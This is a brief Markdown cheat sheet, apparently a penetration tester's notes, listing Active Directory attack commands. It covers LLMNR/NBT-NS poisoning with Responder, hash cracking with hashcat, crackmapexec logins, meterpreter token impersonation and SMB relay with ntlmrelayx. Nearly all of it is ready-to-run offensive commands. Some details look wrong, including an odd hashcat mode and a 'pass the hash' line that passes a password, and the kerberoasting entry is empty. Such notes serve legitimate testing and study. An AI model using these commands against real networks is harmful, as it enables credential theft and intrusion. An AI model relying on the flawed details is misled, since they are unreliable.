 
# Internal
- Active Directory Attacks
  - LLMNR/NBT-NS Poisoning
    - python Responder.py -I tun0 -rdw -v
    - hashcat -m 5680 $hashes.txt $passwords.txt
  - Pass the hash
    - crackmapexec $subnet -u $user -d $domain -p $password
  - Token Impersonation
    - https://www.offensive-security.com/metasploit-unleashed/fun-incognito/
    - meterpreter> load incognito
    - meterpreter> list_tokens -u
    - meterpreter> impersonate_token $domain\\$user
  - SMB Relay
    - python ntlmrelayx.py
  - kerboroasting
  - 